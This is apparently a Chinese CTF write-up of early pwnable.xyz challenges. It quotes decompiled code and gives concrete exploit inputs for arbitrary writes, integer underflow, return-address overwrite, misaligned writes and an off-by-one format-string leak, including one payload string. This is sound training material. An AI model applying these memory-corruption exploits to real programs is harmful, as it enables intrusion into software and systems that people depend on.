 Pwnable.xyz

## 0x01 welcome

手生了。。。

```c
v3 = malloc(0x40000uLL); //分配0x40000大小的空间
*v3 = 1LL;               // 其中的首地址中写入1
_printf_chk(1LL, "Leak: %p\n", v3); //打印首地址

_isoc99_scanf("%lu", &size);        //读一个大小
v5 = (char *)malloc(size);          //分配这个大小的空间

read(0, v5, size);                  //读数据进空间
  
v7 = size;
v5[size - 1] = 0;
write(1, v5, v7);                   //屏幕回显输入的数据
if ( !*v3 )                         //判断第一次分配空间首地址数据
    system("cat /flag");
```

本机环境Ubuntu 64位，当分配大小为0x20000时，在栈上。因为最终判断*v3的值，其中对内存地址写数据的只有`v5[size - 1] = 0`，当然还有read，但是在栈上两块内存区域总是相距0x1000，况且read还有长度限制。想啊想就想让size-1的地址为v3的地址。。。随手将长度输入-1，分配个更大的内存空间，然后crash掉了，分析一下，想起来大内存分配失败后本没有v5。相应的写内存操作为：  

` ► 0x55ffce7d49d6    mov    byte ptr [rbp + rdx - 1], 0`

其中rbp为v5的基址，失败后为0，rdx为输入的size，因此当size过大时就可以造成任意地址写操作，题目正好泄漏了v3的基址。


## 0x02 sub

从题目中可以感知到涉及整数溢出  

```c
_isoc99_scanf("%u %u", &v4, &v5);  //输入v4、v5
if ( v4 <= 4918 && v5 <= 4918 ){   //输入限制，乍一看只有正整数
    if ( v4 - v5 == 4919 )         //但是负数可以满足条件
        system("cat /flag");
}
```

## 0x03 add

额，这个就不是整数溢出了，不过像第一个，任意地址写。  

```c
int64 v7[11]; // [rsp+20h] [rbp-60h]
if ( (unsigned int)__isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6) != 3 )
    break;
v7[v6] = v4 + v5;
}
```

其中又一个win函数打印flag，所以修改返回地址为win函数的地址(0x400822)即可。返回地址找main结束的地址，main执行ret时，会跳转到栈上0x7fffffffec48中保存的地址，而v7分配的地址为0x7fffffffec40，其中写地址的操作为：

`0x4008c6 <main+145>    mov    qword ptr [rbp + rax*8 - 0x60], rdx`

所以向v7的第13个位置越界写win的地址。通过输入其他字符来跳出while循环。  


## 0x04 misalignment

看起来与第三个差不多

```c
*(_QWORD *)((char *)v5 + 7) = 0xDEADBEEF;
while ( (unsigned int)_isoc99_scanf("%ld %ld %ld", &v6, &v7, &v8) == 3 && v8 <= 9 && v8 >= -7 ) {
    v5[v8 + 6] = v6 + v7;
    printf("Result: %ld\n", v5[v8 + 6]);
}
if ( *(_QWORD *)((char *)v5 + 7) == 0xB000000B5 )
    win();
```
在0x7fffffffeb9f中扔入0xDEADBEEF，最后判断其中是否为0xB000000B5，Emmm最简单的当然是直接写数据，but。。。  

`► 0x555555554a95 <main+182>    mov    qword ptr [rbp + rax*8 - 0x98], rdx`  
0x7fffffffec30 - 0x98 - 0x7fffffffeb9f = -7，不是8的整数倍，因此无法控制rax来满足条件。  
所以需要分段写入。

-5404319552844595199 0 -6    -> -0x4affffffffffffff  
184549376 0 -5    -> 0xb000000  

内存布局：

```
pwndbg> x/10x 0x7fffffffeb8f
0x7fffffffeb8f:	0x00000000	0x00000000	0x00000100	0x00000000
0x7fffffffeb9f:	0x000000b5	0x0000000b	0x00000000	0x00000000
0x7fffffffebaf:	0x00000000	0x0000000b
```

## 0x05 grownup

这题开了Canary还有NX，emmmm，而且printf看起来有问题，多半是格式化字符的问题。  
关键代码：  

```c
  qword_601160 = &byte_601168;
  byte_601168 = '%';
  byte_601169 = 's';
  byte_60116A = '\n';
  //usr 的首地址为0x6010e0，大小0x80

  src = (char *)malloc(0x84uLL);
  read(0, src, 0x80uLL);
  strcpy(usr, src); //可以覆盖掉以前的601160的数据
  printf(qword_601160, usr);
```

usr地址空间布局如下，正常情况下，printf(qword_601160, usr)中格式化字符为601160处存放的“%s\n”的地址，相当于执行了printf(“%s”, usr)。  
但是，如果读入128(0x80)个字符后，经过strcpy复制到usr空间中，此时会有一个off-by-one的越界写问题，将0x601160处的数据写为“\x00”，因此格式化字符所在的地址为“0x00601100”，此时该地址可以被控制，成为格式化字符漏洞。  

```c
pwndbg> x/50x 0x6010e0
0x6010e0 <usr>:	    0x00000000	0x00000000	0x00000000	0x00000000
0x6010f0 <usr+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x601100 <usr+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x601110 <usr+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x601120 <usr+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x601130 <usr+80>:	0x00000000	0x00000000	0x00000000	0x00000000
0x601140 <usr+96>:	0x00000000	0x00000000	0x00000000	0x00000000
0x601150 <usr+112>:	0x00000000	0x00000000	0x00000000	0x00000000
0x601160 <usr+128>:	0x00601168	0x00000000	0x000a7325	0x00000000
```

漏洞printf处的反汇编：  

```
   0x400938 <main+211>    mov    rax, qword ptr [rip + 0x200821] <0x601160>
   0x40093f <main+218>    lea    rsi, qword ptr [rip + 0x20079a] <0x6010e0>
   0x400946 <main+225>    mov    rdi, rax
 ► 0x400949 <main+228>    mov    eax, 0 <0x601100>
   0x40094e <main+233>    call   printf@plt <0x400670>
```

额，看起来没有以前的win之类的函数了，难道要改GOT？？？或者ROP？？？，还好搜了一下字符串发现：  
`.data:0000000000601080 flag            db 'FLAG{_the_real_flag_will_be_here_}',0`  
那么简单了，泄漏数据就可以了。。。格式化字符串函数会根据格式化字符串直接使用栈上自顶向上的变量作为其参数 (64 位会根据其传参的规则进行获取)  
那么问题来了，如何传入地址0x601080，输入一堆“%x”后，可以看到返回中有79，就是小写的“y”，当然看栈上数据也可以，同时发现程序中  
`*((_BYTE *)&buf + (signed int)((unsigned __int64)read(0, &buf, 0x10uLL) - 1)) = 0;`
竟然可以输入0x10个字节，于是可以输入地址了，经过尝试，菜鸡只会一个个的试，"yDDDDDDD" + "\x80\x10\x60"可以达到目的。Done。  

找输入地址的时候很痛苦啊，一直只想控制printf的两个参数。。。


## 0x06 note

菜单题，不会。。。看起来和堆相关  





